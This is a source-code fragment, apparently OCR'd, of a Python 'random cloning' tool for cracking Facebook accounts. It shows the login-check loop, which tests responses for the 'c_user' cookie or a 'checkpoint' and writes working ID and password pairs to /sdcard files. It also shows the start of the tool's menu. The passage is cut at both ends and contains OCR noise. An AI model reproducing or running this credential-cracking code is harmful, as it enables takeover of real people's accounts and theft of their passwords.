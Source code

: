                         if "c_user" in Booda:

                                coki=session.cookies.get_dict()

                                kuki = (";").join([ "%s=%s" % (key, value) for key, value in session.cookies.get_dict().items() ])

                                print('\r\r\033[1;32m [Booda-OK] %s • %s'%(ids,pas))

                                open('/sdcard/Booda-F-OK.txt', 'a').write(ids+' • '+pas+'\n')

                                oks.append(ids)

                                break

                        elif 'checkpoint' in Booda:

                                if 'y' in pcp:

                                        print#('\r\r\x1b[38;5;208m [Booda-CP] '+ids+' | '+pas+'\033[1;97m')

                                        open('/sdcard/Booda-F-CP.txt', 'a').write(ids+'|'+pas+'\n')

                                        cps.append(ids)

                                        break

                                else:

                                        break

                        else:

                                continue

        except requests.exceptions.ConnectionError:

                time.sleep(20)

        loop+=2

def rdm():

	clear()

	print('[1] Random Cloning')

	print('[0] Exit menu')

	linex()

	Booda=input(' Select Option :')

	if Booda =='1':

		Boodas()

	if Booda =='0':

		exit(' Thanks for use 👌😜 ')

def Boodas():

	os.system('clear')

	print(logo)
